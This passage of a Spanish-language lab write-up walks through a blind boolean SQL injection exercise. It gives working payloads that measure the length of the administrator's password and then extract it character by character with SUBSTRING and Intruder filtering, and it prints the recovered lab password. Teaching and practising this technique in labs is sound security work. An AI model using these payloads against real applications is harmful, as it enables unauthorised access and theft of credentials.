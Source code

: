 ![Intruder 2]({{site.url}}/images/SQLi/sqli-11/Intruder2.png)

Filtramos los usuarios que tienen el mensaje de `Welcome back!` y esos son los que existen en la tabla.

![Filtado 2]({{site.url}}/images/SQLi/sqli-11/filtrado2.png)

## Averiguar longitud de password de un usuario

El payload es tipo entero, ya que vamos a averiguar cuantos caracteres tiene el password de un usuario.

```sql
' AND (SELECT LENGTH(password) FROM users WHERE username = 'administrator') = PAYLOAD--
```
![Longitud]({{site.url}}/images/SQLi/sqli-11/longitud password.png)

Filtramos por el mensaje `Welcome back!`

![Longitud 2]({{site.url}}/images/SQLi/sqli-11/longitud password filtro.png)

Longitud de caracteres que tiene el password

![Longitud 2]({{site.url}}/images/SQLi/sqli-11/longitud.png)

## Ataque de Fuerza al campo Password

Utiliza una consulta que verifique si un carácter en una posición específica coincide con una letra de tu conjunto de prueba

```sql
' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a'--
```

![Ataque password]({{site.url}}/images/SQLi/sqli-11/ataque password.png)

Filtramos por las consultas que tienen la frase `Welcome back!`

![Ataque password]({{site.url}}/images/SQLi/sqli-11/filtro ataque.png)

Manualmente obtenemos el password

![Manual]({{site.url}}/images/SQLi/sqli-11/manual.png)

```javascript
cedh8jyjns3sevnw0znp
```

## Login

![Login]({{site.url}}/images/SQLi/sqli-11/login.png)

## Resuelto
